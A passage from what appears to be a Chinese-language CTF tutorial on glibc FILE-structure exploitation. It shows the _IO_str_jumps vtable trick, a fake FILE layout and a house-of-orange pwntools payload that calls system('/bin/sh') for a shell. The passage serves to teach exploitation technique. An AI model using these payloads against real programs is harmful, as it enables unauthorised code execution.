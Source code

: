 可以看到，它使用了`IO`结构体中的值**当作函数地址来直接调用**；

如果满足条件，将直接将`fp->_s._free_buffer`当作**函数指针**来调用。

首先，仍然需要绕过之前的`_IO_flush_all_lokcp`函数中的输出缓冲区的检查`_mode<=0`以及`_IO_write_ptr>_IO_write_base`**进入到`_IO_OVERFLOW`中**。

我们可以**将`vtable`的地址覆盖成`_IO_str_jumps-8`**，这样会使得`_IO_str_finish`函数成为了伪造的`vtable`地址的`_IO_OVERFLOW`函数（因为`_IO_str_finish`偏移为`_IO_str_jumps`中`0x10`，而`_IO_OVERFLOW`为`0x18`）。这个`vtable`（地址为`_IO_str_jumps-8`）可以绕过检查，因为它在`vtable`的地址段中。
构造好`vtable`之后，需要做的就是构造`IO FILE`结构体其他字段，以进入将`fp->_s._free_buffer`当作函数指针的调用：先构造`fp->_IO_buf_base`为`'/bin/sh'`的地址，然后构造`fp->_flags`不包含`_IO_USER_BUF`，它的定义为`#define _IO_USER_BUF 1`，即`fp->_flags`最低位为`0`。
最后构造`fp->_s._free_buffer`为`system_addr`或`one gadget`即可`getshell`。

由于`libc`中没有`_IO_str_jump`的符号，因此可以通过`_IO_str_jumps`是`vtable`中的倒数第二个表，用`vtable`的最后地址减去`0x168`定位。
也可以用如下函数进行定位：

```python
# libc.address = libc_base
def get_IO_str_jumps():
    IO_file_jumps_addr = libc.sym['_IO_file_jumps']
    IO_str_underflow_addr = libc.sym['_IO_str_underflow']
    for ref in libc.search(p64(IO_str_underflow_addr-libc.address)):
        possible_IO_str_jumps_addr = ref - 0x20
        if possible_IO_str_jumps_addr > IO_file_jumps_addr:
            return possible_IO_str_jumps_addr
```

可以进行如下构造：

```c
._chain => chunk_addr
chunk_addr
{
  file = {
    _flags = 0x0,
    _IO_read_ptr = 0x0,
    _IO_read_end = 0x0,
    _IO_read_base = 0x0,
    _IO_write_base = 0x0,
    _IO_write_ptr = 0x1,
    _IO_write_end = 0x0,
    _IO_buf_base = bin_sh_addr,
      ...
      _mode = 0x0, //一般不用特意设置
      _unused2 = '\000' <repeats 19 times>
  },
  vtable = _IO_str_jumps-8 //chunk_addr + 0xd8 ~ +0xe0
}
+0xe0 ~ +0xe8 : 0x0
+0xe8 ~ +0xf0 : system_addr / one_gadget //fp->_s._free_buffer
```

利用`house of orange`（见下文）构造的`payload`：

```python
payload = p64(0) + p64(0x60) + p64(0) + p64(libc.sym['_IO_list_all'] - 0x10) #unsorted bin attack
payload += p64(0) + p64(1) + p64(0) + p64(next(libc.search(b'/bin/sh')))
payload = payload.ljust(0xd8, b'\x00') + p64(get_IO_str_jumps() - 8)
payload += p64(0) + p64(libc.sym['system'])
```
